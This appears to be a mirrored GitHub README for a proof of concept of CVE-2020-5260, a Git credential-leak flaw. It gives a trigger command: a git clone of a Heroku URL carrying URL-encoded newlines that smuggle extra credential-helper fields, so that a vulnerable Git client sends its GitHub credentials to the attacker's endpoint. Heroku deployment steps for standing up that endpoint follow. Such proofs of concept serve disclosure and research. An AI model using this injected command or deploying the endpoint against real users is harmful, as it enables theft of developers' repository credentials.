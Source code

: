# cve-2020-5260

A HTTP PoC Endpoint for cve-2020-5260 which can be deployed to Heroku

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/brompwnie](https://github.com/brompwnie) |
| Url      | [https://github.com/brompwnie/cve-2020-5260](https://github.com/brompwnie/cve-2020-5260)                                               |
| Stars    | 37                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# cve-2020-5260
A HTTP PoC Endpoint for cve-2020-5260 which can be deployed to Heroku

# CREDIT INFORMATION
Felix Wilhelm of Google Project Zero
https://bugs.chromium.org/p/project-zero/issues/detail?id=2021

# Trigger the vuln

```
git clone 'https://YourHerokuAppNameAndNotMine.herokuapp.com?%0ahost=github.com%0aprotocol=ssh'

```

# Get PoC onto Heroku

Click this button to automagically deploy to Heroku...

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy)

Or follow the steps below...

Yes, I understand the irony of having to run Git clone commands to setup this PoC....

### Install the Heroku CLI via https://devcenter.heroku.com/articles/heroku-cli

If you haven't already, log in to your Heroku account and follow the prompts to create a new SSH public key.

```
$ heroku login
```
### Clone the repository
Use Git to clone cve-2020-5260's source code to your local machine.

```
$ mkdir cve-2020-5260
$ cd cve-2020-5260
$ git init
$ heroku apps:create cve-2020-5260
$ git clone https://github.com/brompwnie/cve-2020-5260
```
### Deploy your changes
Make some changes to the code you just cloned and deploy them to Heroku using Git.
```
$ git add .
$ git commit -am "make it better"
$ git push heroku master
```



## Get the content

```
git clone https://github.com/brompwnie/cve-2020-5260
cd cve-2020-5260
```

{% embed url="https://github.com/brompwnie/cve-2020-5260" %}

<figure><img src="https://avatars.githubusercontent.com/u/8638589?v=4" alt=""><figcaption><p>brompwnie</p></figcaption></figure>
